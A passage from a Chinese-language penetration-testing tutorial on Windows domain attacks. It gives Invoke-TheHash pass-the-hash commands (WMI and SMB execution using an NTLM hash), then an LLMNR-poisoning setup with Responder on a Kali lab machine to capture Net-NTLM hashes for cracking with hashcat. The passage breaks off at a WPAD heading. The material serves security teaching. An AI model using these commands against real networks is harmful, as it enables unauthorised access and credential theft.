 ### **5.2.2 Invoke-TheHash套件**

项目地址：https://github.com/Kevin-Robertson/Invoke-TheHash/
```
Invoke-WMIExec  -Target 1.1.1.1 -Domain test.local -Username username -Hash  7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose

Invoke-SMBExec  -Target 1.1.1.1 -Domain test.local -Username username -Hash  7ECFFFF0C3548187607A14BAD0F88BB1 -Command "calc.exe" -verbose
```
## **5.3、NTLM-Relay**

上述都是“主动性”的攻击行为，也就是主动去连接别人，那我们也可以尝试“被动性”攻击，当别人访问我们时，或者说是无感知访问时，我们能做什么操作？



实验环境：

win7172.16.127.184 普通域用户

win10172.16.127.170 域管

dcserver172.16.127.173 域控

kali172.16.127.129 攻击机

 

利用工具：

Responder、impacket



### **5.3.1 LLMNR**

攻击手法v1.0

访问一台不存在的机器jumbo02，是以下这个结果

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0jlESGHSPmKrUfEPdnwsFyhnDe0YejYBmj8Rm0AgAQdVqZhqA4gX1jw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:33%;" />

攻击机执行

responder  -I eth0

客户端访问jumbo02提示需要输入密码

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0N3vpZLWH16u75PtQYiclOK4BicFSG0EJK4gopTXEGbyOR2eAeT5GibCtw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom: 33%;" />



 输入密码后，攻击机收到net-ntlm：

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0m5B0K7scwh7do20T3Wud7QScSNHcOhM9HSYicTr4rX7dlNh231mP2YA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

收到net-ntlm以后我们就可以尝试利用hashcat进行破解等攻击。

### **5.3.2 WPAD**
